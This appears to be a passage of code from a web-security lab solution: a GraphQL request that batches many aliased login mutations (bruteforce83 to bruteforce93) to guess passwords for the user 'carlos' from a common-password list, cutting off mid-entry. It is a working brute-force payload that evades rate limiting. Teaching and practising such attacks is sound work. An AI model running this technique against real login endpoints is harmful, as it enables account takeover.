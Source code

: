 ```
bruteforce83:login(input:{password: "biteme", username: "carlos"}) {
        token
        success
    }


bruteforce84:login(input:{password: "matthew", username: "carlos"}) {
        token
        success
    }


bruteforce85:login(input:{password: "access", username: "carlos"}) {
        token
        success
    }


bruteforce86:login(input:{password: "yankees", username: "carlos"}) {
        token
        success
    }


bruteforce87:login(input:{password: "987654321", username: "carlos"}) {
        token
        success
    }


bruteforce88:login(input:{password: "dallas", username: "carlos"}) {
        token
        success
    }


bruteforce89:login(input:{password: "austin", username: "carlos"}) {
        token
        success
    }


bruteforce90:login(input:{password: "thunder", username: "carlos"}) {
        token
        success
    }


bruteforce91:login(input:{password: "taylor", username: "carlos"}) {
        token
        success
    }


bruteforce92:login(input:{password: "matrix", username: "carlos"}) {
        token
        success
    }


bruteforce93:login(input:{password: "mobilemail", username: "carlos"}) {
        token
        success
```
